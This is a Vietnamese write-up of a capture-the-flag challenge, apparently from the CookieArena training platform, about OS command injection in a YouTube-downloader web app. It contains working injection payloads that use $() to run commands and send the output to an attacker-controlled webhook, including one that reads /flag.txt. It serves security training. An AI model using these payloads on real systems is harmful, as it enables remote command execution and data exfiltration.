



# Command Injection

**Tên challenge:** Youtube Downloader

**Link challenge:** [Here](https://battle.cookiearena.org/skills-path/os-command-injection/challenge/youtube-downloader)

**Tác giả challenge:** DK189

**Mục tiêu challenge:** Youtube Downloader là công cụ giúp bạn tải video từ Youtube về máy tính miễn phí. Nếu hack được ứng dụng này, bạn sẽ nắm trong tay công nghệ tải video của các website Youtube Downloader trên thế giới.

Format Flag: `CHH{XXX}`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng nhập URL như sau:

**B2:** Ta thử nhập url của link video youtube bất kỳ:

=> Xem ra trang Web sẽ lấy URl input rồi dùng lệnh `youtube-dl` để thực thi `--get-thumbnail` của link URL và trả về thumbnail của video đó.

Sau khi mài mò thì ta tìm ra đươc cách có thể thực thi Command Injection là dùng `$()` hoặc ` `` ` để lợi dụng thực thi Command Injection.

Nhưng để kết hợp được với cách trên thì ta cần phải dùng Webhook bên ngoài của ta để ta có thể nhận output của Command khi được thực thi.

**B3:** Ta thử nhập payload `https://Webhook_cua_ta/?command=$(whoami)` rồi sau đó kiểm tra lại Webhook bên ngoài của ta:

=> Vậy là ta đã thực thi được Command Injection trên Website.

Tiếp theo, ta chỉ cần dùng lệnh `$(cat+/flag.txt)` để lấy `Flag`.

<u>**Lưu ý:**</u> Do ta không thể nhập dấu `space` trong URL nên ta phải dùng dấu `+` để thay thế.